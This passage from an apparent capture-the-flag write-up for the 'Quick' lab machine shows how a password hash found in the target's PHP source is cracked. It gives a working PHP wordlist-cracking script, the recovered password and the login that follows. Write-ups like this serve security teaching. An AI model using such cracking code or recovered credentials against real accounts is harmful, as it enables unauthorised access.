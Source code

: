 The hashes cannot be found in public databases, but _index.php_ shows how they got encrypted:
```
(...)
$password = $_POST["password"];
$password = md5(crypt($password,'fa'));
(...)
```

Creating a PHP script to decrypt it:
```php

$hash = 'e626d51f8fbfd1124fdea88396c35d05';
$wordlist = explode("\n",file_get_contents('/usr/share/wordlists/rockyou.txt'));

foreach($wordlist as $word) {
        $attempt = md5(crypt($word,"fa"));
        if ($hash === $attempt) {
                echo("Cracked: " . $word . "\n");
                exit(0);
        }
}

echo("Not Cracked\n");
exit(1);
```
```
php crack_md5.php

Cracked: yl51pbx
```

The hash gets cracked and the login to the printer web page works with the user _srvadm@quick.htb_.

### Exploiting Printer Page

The homepage says that it is _An application for printing POS receipts_ and it is possible to add printers:

![Adding printer](quick_web-6.png)
